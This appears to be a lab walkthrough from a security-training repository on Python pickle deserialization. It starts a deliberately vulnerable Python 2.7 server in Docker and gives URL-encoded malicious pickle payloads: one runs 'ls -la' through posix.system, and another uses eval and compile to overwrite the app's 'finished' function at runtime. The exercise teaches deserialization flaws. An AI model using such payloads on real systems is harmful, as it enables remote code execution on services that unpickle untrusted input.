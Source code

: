 # Example 2: Modify Existing Function

## Project Setup

To startup an example navigate into the directory and start a docker container with the following command:  

```bash
sudo docker run -it --rm -v $(pwd):/app -p 8080:8080 python:2 bash
```  

This will start a docker container for Python 2.7. From here navigate into the directory and start the webserver with the following command:  

```bash
cd /app  
pip install -r requirements.txt
python index.py
```

## Using Payloads

With the webserver started, we can begin querying input with the 'pickle' parameter.

Use the included generate_pickle.py script to generate malicious input. You would then want to encode your input in URL form. This can be done in Burp Suite or [here](https://www.urlencoder.org/).

The following is an example payload to ```ls```.

```bash
cposix%0Asystem%0Ap1%0A%28S%27ls%20-la%27%0Ap2%0Atp3%0ARp4%0A.
```

You can see in the output of the server side that we have executed the ```ls``` command. What if we wanted to do something more malicious. Our next goal will be to overwrite an existing function. So long as the server does not error out, we will always call the ```finished``` function. Using the deserialization bug, we can replace this function.

To do this, use the following payload, or generate it with generate_pickle.py.

The idea is that we evaluate a compile function, and then pass in properly formatted python code. This allows us to execute arbitray Python code in the interpreter and affect the runtime environment. The following payload will modify the ```finished``` function until the application is restarted.

```bash
c__builtin__%0Aeval%0Ap1%0A%28S%27eval%28compile%28%22%22%22global%20finished%5Cndef%20finished%28%29%3A%5Cn%20%20%20%20return%20%5C%27Modified This Function%5C%27%22%22%22%2C%20%5C%27%3Cstdin%3E%5C%27%2C%20%5C%27exec%5C%27%29%29%27%0Ap2%0Atp3%0ARp4%0A.
```
